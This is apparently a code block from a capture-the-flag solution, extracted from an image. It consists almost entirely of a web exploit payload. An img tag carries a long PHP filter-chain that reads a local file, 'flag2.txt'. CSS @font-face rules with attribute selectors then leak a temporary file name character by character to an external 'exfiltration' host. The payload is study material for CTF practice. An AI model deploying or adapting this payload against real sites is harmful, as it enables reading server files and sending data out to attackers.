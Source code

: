```
<img src="php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=file:///flag2.txt" class="payloadspan">
<span class="payloadspan">Give the name: uploads/temp/</span>
<svg>
<style>
@font-face{font-family:'uploads/temp/0';src:url('http://exfiltration:8000/tvojewriteupid/?name=uploads/temp/0')}
.payloadspan[src^='uploads/temp/0'] + .payloadspan{font-family:'uploads/temp/0'!important}

@font-face{font-family:'uploads/temp/1';src:url('http://exfiltration:8000/tvojewriteupid/?name=uploads/temp/1')}
.payloadspan[src^='uploads/temp/1'] + .payloadspan{font-family:'uploads/temp/1'!important}

@font-face{font-family:'uploads/temp/2';src:url('http://exfiltration:8000/tvojewriteupid/?name=uploads/temp/2')}
.payloadspan[src^='uploads/temp/2'] + .payloadspan{font-family:'uploads/temp/2'!important}

@font-face{font-family:'uploads/temp/3';src:url('http://exfiltration:8000/tvojewriteupid/?name=uploads/temp/3')}
.payloadspan[src^='uploads/temp/3'] + .payloadspan{font-family:'uploads/temp/3'!important}

@font-face{font-family:'uploads/temp/4';src:url('http://exfiltration:8000/tvojewriteupid/?name=uploads/temp/4')}
.payloadspan[src^='uploads/temp/4'] + .payloadspan{font-family:'uploads/temp/4'!important}

@font-face{font-family:'uploads/temp/5';src:url('http://exfiltration:8000/tvojewriteupid/?name=uploads/temp/5')}
.payloadspan[src^='uploads/temp/5'] + .payloadspan{font-family:'uploads/temp/5'!important}

@font-face{font-family:'uploads/temp/6';src:url('http://exfiltration:8000/tvojewriteupid/?name=uploads/temp/6')}
.payloadspan[src^='uploads/temp/6'] + .payloadspan{font-family:'uploads/temp/6'!important}

@font-face{font-family:'uploads/temp/7';src:url('http://exfiltration:8000/tvojewriteupid/?name=uploads/temp/7')}
.payloadspan[src^='uploads/temp/7'] + .payloadspan{font-family:'uploads/temp/7'!important}

@font-face{font-family:'uploads/temp/8';src:url('http://exfiltration:8000/tvojewriteupid/?name=uploads/temp/8')}
.payloadspan[src^='uploads/temp/8'] + .payloadspan{font-family:'uploads/temp/8'!important}

@font-face{font-family:'uploads/temp/9';src:url('http://exfiltration:8000/tvojewriteupid/?name=uploads/temp/9')}
.payloadspan[src^='uploads/temp/9'] + .payloadspan{font-family:'uploads/temp/9'!important}

@font-face{font-family:'uploads/temp/a';src:url('http://exfiltration:8000/tvojewriteupid/?name=uploads/temp/a')}
.payloadspan[src^='uploads/temp/a'] + .payloadspan{font-family:'uploads/temp/a'!important}

```